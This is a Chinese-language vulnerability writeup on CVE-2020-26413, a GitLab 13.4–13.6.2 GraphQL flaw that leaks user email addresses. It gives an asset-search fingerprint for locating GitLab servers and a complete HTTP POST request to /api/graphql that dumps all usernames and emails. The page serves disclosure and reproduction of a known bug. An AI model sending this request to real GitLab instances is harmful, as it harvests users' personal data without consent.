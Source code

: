 # GitLab Graphql邮箱信息泄露漏洞 CVE-2020-26413

## 漏洞描述

GitLab中存在Graphql接口 输入构造的数据时会泄露用户邮箱和用户名

## 漏洞影响

<a-checkbox checked>GitLab 13.4 - 13.6.2</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="GitLab"</a-checkbox></br>

## 漏洞复现

漏洞来源为 hackone上的一篇公开报告

<a-alert type="success" message="https://gitlab.com/gitlab-org/gitlab/-/issues/244275" description="" showIcon>
</a-alert>
<br/>



![img](../../../.vuepress/public/img/gitlab-1.png)



意思为当使用构造的语句在接口查询时会返回邮箱信息，如图

<a-alert type="success" message="访问 URL http://xxx.xxx.xxx.xxx/-//graphql-explorer" description="" showIcon>
</a-alert>
<br/>

![img](../../../.vuepress/public/img/gitlab-2.png)



Gitlab本身不允许获取账号邮箱信息，这里通过调用 Graphql 用户名查询造成了邮箱泄露漏洞

查看完报告后发现漏洞利用需要有账号用户名，在不知道的情况下无法获取邮箱，在[Graphql官网](https://graphql.cn/)查看得知可以通过另一个构造的语句一次性返回所有的用户名和邮箱



![img](../../../.vuepress/public/img/gitlab-3.png)



发包调用了 `/api/graphql` 接口发送数据

完整数据包为

```json
POST /api/graphql HTTP/1.1
Host:
Content-Length: 212
Content-Type: application/json


{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```

![img](../../../.vuepress/public/img/gitlab-4.png)



成功返回数据，造成 Gitlab的用户邮箱信息泄露

